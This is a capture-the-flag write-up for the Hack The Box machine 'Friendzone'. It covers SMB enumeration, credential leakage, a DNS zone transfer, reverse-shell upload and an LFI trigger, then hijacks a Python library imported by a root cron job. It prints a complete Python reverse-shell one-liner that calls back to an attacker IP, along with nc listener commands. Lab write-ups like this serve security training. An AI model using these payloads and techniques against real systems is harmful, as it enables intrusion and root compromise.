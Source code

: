 ```yaml
---
title: Friendzone - Hack The Box
author: "0xPThree"
description: "N/A"
date: 2019-06-17
image: images/friendzone_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/friendzone_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------


# USER
## Enumeration

Enum standard + extra smb
```bash
nmap -sC -sV -O 10.10.10.123
nmap --script=smb-enum-shares 10.10.10.123 
```

Grab `cred.txt`
```bash
smbclient //10.10.10.123/general
get creds.txt
```

Zone Transfer to find subdomains
```bash
dig axfr friendzone.red @10.10.10.123
```

Add subdomains to `/etc/hosts`
```bash
10.10.10.123 friendzone.red administrator1.friendzone.red hr.friendzone.red uploads.friendzone.red
```

Login as `administrator1` with credentials found from `cred.txt`

Upload reverse shell through SMB
```bash
smbclient //10.10.10.123/Development
put r
```

Prepare `nc` to grab reverse shell
```bash
nc -lnvp 4455
```

Use LFI through dashboard.php to trigger reverse shell.<br>
With previous enumeration of smb shares we found the path to `/etc/Development` where our shell will be uploaded.

`dashboard.php?image_id=a.jpg&pagename=../../../../../etc/Development/r`

> **NOTE1:**<br>
> Probably smart to upload a test file, like `<?php phpinfo(); ?>`, before going for the reverse shell.


> **NOTE2:**<br>
> The php call will look something like this: `<?php “include/”.include($_GET['pagename'].“.php”); ?>`<br>
> Do not end your filename with `.php` as this is already done in the code and you'll create a double file ending. 

Grab user: `/home/friend/user.txt`

Grab SSH-creds:
```bash
ls /var/www/htm/mysql_data.conf
(f*****:A*************)
```

---------
<br><br>

# ROOT

```bash
ssh friend@10.10.10.123
```

Look on executing services with `pspy64`:
```bash
2019/06/18 16:24:01 CMD: UID=0    PID=4059   | /bin/sh -c /opt/server_admin/reporter.py 
2019/06/18 16:24:01 CMD: UID=0    PID=4058   | /bin/sh -c /opt/server_admin/reporter.py 
2019/06/18 16:24:01 CMD: UID=0    PID=4057   | /usr/sbin/CRON -f 
```

Investigate the script `reporter.py` and we find that it uses `import os`.


With ls -l1 we find that we have `+r+w` one the file `/usr/lib/python2.7/os.py`

Add a python reverse shell at the end of `os.py` and wait for cron to trigger it.
```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4488));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Start `nc -lvnp 4488` and grab `root.txt`

